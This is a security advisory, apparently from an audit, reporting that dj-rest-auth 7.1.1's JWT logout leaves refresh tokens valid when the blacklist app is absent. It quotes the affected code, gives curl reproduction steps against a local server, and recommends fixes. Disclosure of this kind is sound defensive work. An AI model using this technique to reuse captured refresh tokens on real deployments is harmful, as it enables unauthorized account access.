

# Vuln-2: JWT Refresh Token Remains Valid After Logout

**Project:** dj-rest-auth (https://github.com/iMerica/dj-rest-auth)
**Version:** 7.1.1 (commit `c0c9c23`)
**Date:** 2026-03-14
**Severity:** HIGH
**CWE:** CWE-613 - Insufficient Session Expiration

---

## Affected File

```text
dj_rest_auth/views.py (lines 171-214)
```

## Root Cause

When JWT mode is enabled (`USE_JWT=True`) without `rest_framework_simplejwt.token_blacklist` in `INSTALLED_APPS`, the `LogoutView.logout()` method only deletes client-side cookies. It does not invalidate the refresh token server-side:

## Vulnerable Code

```python
# views.py:171-214
if api_settings.USE_JWT:
    ...
    unset_jwt_cookies(response)  # Only clears cookies

    if 'rest_framework_simplejwt.token_blacklist' in settings.INSTALLED_APPS:
        # Blacklist logic - only runs if blacklist app is installed
        ...
    elif not cookie_name:
        message = _('Neither cookies or blacklist are enabled...')
        ...
```

Without the blacklist app, a previously captured refresh token can be used indefinitely to obtain new access tokens, making logout purely cosmetic.

## Steps to Reproduce

```bash
# 1. Start server with JWT mode (no token_blacklist)
# 2. Register and obtain JWT tokens
RESPONSE=$(curl -s -X POST http://127.0.0.1:8000/api/auth/registration/ \
  -H 'Content-Type: application/json' \
  -d '{"username":"jwtuser","email":"jwt@test.com","password1":"JwtPass123!","password2":"JwtPass123!"}')
ACCESS=$(echo $RESPONSE | python -c "import sys,json; print(json.load(sys.stdin)['access'])")
REFRESH=$(echo $RESPONSE | python -c "import sys,json; print(json.load(sys.stdin)['refresh'])")

# 3. Logout
curl -s -X POST http://127.0.0.1:8000/api/auth/logout/ \
  -H "Authorization: Bearer $ACCESS" \
  -H 'Content-Type: application/json' \
  -d "{\"refresh\": \"$REFRESH\"}"
# Returns: {"detail":"Successfully logged out."}

# 4. Use refresh token AFTER logout to get a new access token
curl -s -X POST http://127.0.0.1:8000/api/auth/token/refresh/ \
  -H 'Content-Type: application/json' \
  -d "{\"refresh\": \"$REFRESH\"}"
# Returns: {"access":"eyJ..."} - new access token issued despite logout!
```

## Impact

Logout is ineffective. A leaked refresh token continues to grant access for its entire lifetime (typically days), regardless of whether the user has logged out. This violates the principle that logout should revoke all active sessions.

## Recommended Fix

Either require `token_blacklist` when `USE_JWT=True`, or raise an explicit error or warning during logout when server-side revocation is not possible. At minimum, the documentation should prominently warn that JWT logout without blacklist provides no server-side revocation.

---

## References

- [OWASP A07:2021 - Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- [CWE-613: Insufficient Session Expiration](https://cwe.mitre.org/data/definitions/613.html)
- [dj-rest-auth source repository](https://github.com/iMerica/dj-rest-auth)
